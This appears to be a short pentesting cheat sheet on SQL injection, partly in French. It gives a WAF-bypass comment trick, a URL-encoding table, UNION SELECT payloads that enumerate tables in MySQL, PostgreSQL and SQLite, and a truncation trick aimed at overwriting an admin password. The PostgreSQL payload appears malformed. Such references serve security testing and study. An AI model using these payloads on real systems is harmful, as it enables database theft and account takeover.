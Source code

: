 
# SQL injection

- WAF bypass

/**/ fonctionne comme un espace

    espace 	%20 	%20
    ! 	%21 	%21
    " 	%22 	%22
    \#  %23 	%23
    $ 	%24 	%24
    % 	%25 	%25
    & 	%26 	%26
    ' 	%27 	%27
    ( 	%28 	%28
    ) 	%29 	%29
    \* 	%2A 	%2A
    \+ 	%2B 	%2B
    , 	%2C 	%2C
    \- 	%2D 	%2D
    . 	%2E 	%2E
    / 	%2F 	%2F
    0 	%30 	%30
    1 	%31 	%31
    2 	%32 	%32
    3 	%33 	%33
    4 	%34 	%34
    5 	%35 	%35
    6 	%36 	%36
    7 	%37 	%37
    8 	%38 	%38
    9 	%39 	%39
    : 	%3A 	%3A
    ; 	%3B 	%3B
    < 	%3C 	%3C
    = 	%3D 	%3D
    \> 	%3E 	%3E
    ? 	%3F 	%3F
    @ 	%40 	%40
    A 	%41 	%41
    B 	%42 	%42
    C 	%43 	%43
    D 	%44 	%44
    E 	%45 	%45
    F 	%46 	%46
    G 	%47 	%47
    H 	%48 	%48
    I 	%49 	%49
    J 	%4A 	%4A
    K 	%4B 	%4B
    L 	%4C 	%4C
    M 	%4D 	%4D
    N 	%4E 	%4E
    O 	%4F 	%4F
    P 	%50 	%50
    Q 	%51 	%51
    R 	%52 	%52
    S 	%53 	%53
    T 	%54 	%54
    U 	%55 	%55
    V 	%56 	%56
    W 	%57 	%57
    X 	%58 	%58
    Y 	%59 	%59
    Z 	%5A 	%5A
    [ 	%5B 	%5B
    \ 	%5C 	%5C
    ] 	%5D 	%5D
    ^ 	%5E 	%5E
    _ 	%5F 	%5F
    \` 	%60 	%60
    a 	%61 	%61
    b 	%62 	%62
    c 	%63 	%63
    d 	%64 	%64
    e 	%65 	%65
    f 	%66 	%66
    g 	%67 	%67
    h 	%68 	%68
    i 	%69 	%69
    j 	%6A 	%6A
    k 	%6B 	%6B
    l 	%6C 	%6C
    m 	%6D 	%6D
    n 	%6E 	%6E
    o 	%6F 	%6F
    p 	%70 	%70
    q 	%71 	%71
    r 	%72 	%72
    s 	%73 	%73
    t 	%74 	%74
    u 	%75 	%75
    v 	%76 	%76
    w 	%77 	%77
    x 	%78 	%78
    y 	%79 	%79
    z 	%7A 	%7A
    { 	%7B 	%7B
    | 	%7C 	%7C
    } 	%7D 	%7D
    ~ 	%7E 	%7E
    	%7F 	%7F
    ` 	%80 	%E2%82%AC

- Retreive tables

1.  Mysql
    
    union select group_concat(table_name) from information_schema.tables 
		
3. PostgreSQL

     UNION SELECT * FROM string_agg(tablename, ',') WHERE schemaname != 'pg_catalog'  AND schemaname != 'information_schema';

3. SQLite

     union select group_concat(name) from sqlite_master WHERE type='table'

- SQL Truncation

e.g. :

    Update Users set password = $password where username= $login
	login = varchar(25)
	with $login = 'admin(blankspace x 19)x'


